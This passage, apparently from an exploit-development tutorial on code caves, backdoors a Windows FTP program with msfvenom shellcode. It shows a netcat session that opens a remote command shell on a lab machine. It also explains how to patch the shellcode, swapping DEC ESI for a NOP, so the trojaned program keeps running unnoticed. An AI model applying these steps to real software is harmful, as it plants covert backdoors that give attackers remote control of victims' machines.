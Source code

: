 ```term
root@whitecr0wz:~# rlwrap nc 192.168.100.149 9000 -v 
192.168.100.149: inverse host lookup failed: Unknown host
(UNKNOWN) [192.168.100.149] 9000 (?) open
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\IEUser\Desktop2\FTPDummy_Code_Cave>
```

However, once exited, the program is terminated.

![](/assets/img/Code_Cave/15.png)

Note: As explained previously, the shellcode will require some modifications. In this case, the program execution will not continue unless the shellcode has finished, in order 
to change this, replace the instruction commonly given in msfvenom payloads DEC ESI (4E), for a NOP.

![](/assets/img/Code_Cave/16.png)
